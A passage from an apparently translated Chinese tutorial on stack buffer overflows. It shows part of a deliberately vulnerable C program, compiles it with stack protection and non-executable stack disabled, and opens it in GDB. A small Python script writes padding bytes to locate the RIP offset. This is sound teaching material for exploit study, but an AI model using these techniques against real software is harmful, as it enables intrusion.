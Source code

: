 ```
     int local_variable = 1;
     copytobuffer(argv[1]);
     exit(0);
 }
```

此外，这里`shell_pwn`永远不会被执行，因为我们从未在这里调用它，但现在我们知道如何做。首先，让我们编译它：

```
 $ gcc -fno-stack-protector -z execstack exec.c -o exec
```

然后，在 GDB 中打开我们的代码：

```
$ gdb ./exec
```

然后，在`main`函数处设置断点：

```
$ break main
```

好的，现在让我们准备我们的利用程序来确认 RIP 寄存器的确切位置：

```
#!/usr/bin/python

 buffer = ''
 buffer += 'a'*24
 buffer += 'b'*6
 f = open("input.txt", "w")
 f.write(buffer)
```

然后，执行我们的利用程序：

```
$ ./exploit.py
```

现在，从 GDB 中运行以下命令：

```
$ run $(cat input.txt)
```

然后，它将在`main`函数处触发断点：

![](img/00243.jpeg)
